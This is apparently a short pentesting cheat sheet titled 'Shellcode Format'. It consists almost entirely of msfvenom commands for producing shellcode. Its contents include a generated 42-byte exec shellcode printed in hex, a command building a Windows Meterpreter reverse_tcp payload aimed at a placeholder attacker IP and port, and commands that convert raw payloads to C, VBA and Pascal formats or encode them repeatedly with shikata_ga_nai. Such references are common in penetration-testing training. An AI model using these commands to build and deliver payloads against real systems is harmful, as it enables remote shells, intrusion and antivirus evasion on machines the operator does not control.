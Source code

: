 # Shellcode Format

- **Pipe it through hexdump**

```
$ msfvenom -p linux/x86/exec cmd=whoami R | hexdump -v -e '"\\\x" 1/1 "%02x"'
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 42 bytes

\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x07\x00\x00\x00\x77\x68\x6f\x61\x6d\x69\x00\x57\x53\x89\xe1\xcd\x80
```

- **Any raw shellcode binary even if it's not related to metasploit using via generic/custom payload**

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw > payload-x86.bin`

`$ msfvenom -p generic/custom payloadfile=./payload-x86.bin -a x86 --platform windows -f c -o sc.c`

- You can also use a calculator program as a shellcode

`$ msfvenom -p generic/custom payloadfile=/home/user/calc.exe -a x64 --platform windows -f vba-exe`

- **Pipe it through msfvenom**

`$ cat payload-x86.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -f c -i 9`

- **Generate formatted Pascal shellcode**

`$ msfvenom -p <payload> -f c | sed -r 's/[\x]+/$/g' | sed -r 's/[\]+/,/g' | sed -r 's/["]+//g' | sed -e 's/$/\,/' | cut -c 2-`